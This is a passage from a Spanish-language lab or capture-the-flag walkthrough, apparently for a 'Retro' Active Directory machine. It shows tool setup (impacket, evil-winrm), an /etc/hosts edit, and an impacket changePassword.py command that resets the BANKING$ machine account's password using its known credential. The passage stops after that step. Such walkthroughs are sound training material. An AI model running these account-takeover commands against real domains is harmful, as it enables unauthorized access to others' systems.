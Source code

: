 Para usar `changePassword.py` o `lookupsid.py`:

```bash
cd impacket/examples
```

También puede ser útil:

```bash
sudo apt install python3-venv
sudo gem install evil-winrm
```


## 🧪 Paso a paso:

### 1. 🧾 Modificación de `/etc/hosts`

Para evitar problemas de resolución DNS al trabajar con `dc.retro.vl` y `retro.vl`, editamos `/etc/hosts`:

![](../img/5085c9ab361b4df791d4d899f01cb145.png)

### 2. 📦 Cambio de contraseña al equipo `BANKING$`

Primero cambiamos la contraseña del equipo `BANKING$` para poder autenticarnos.

```bash
python3 changePassword.py -newpass NuevaPass123 \
'retro.vl/BANKING$:banking@dc.retro.vl' \
--protocol rpc-samr
```

![](../img/c56c8d1cf4fe7e68beaa7b3ec08d17d6%202.png)

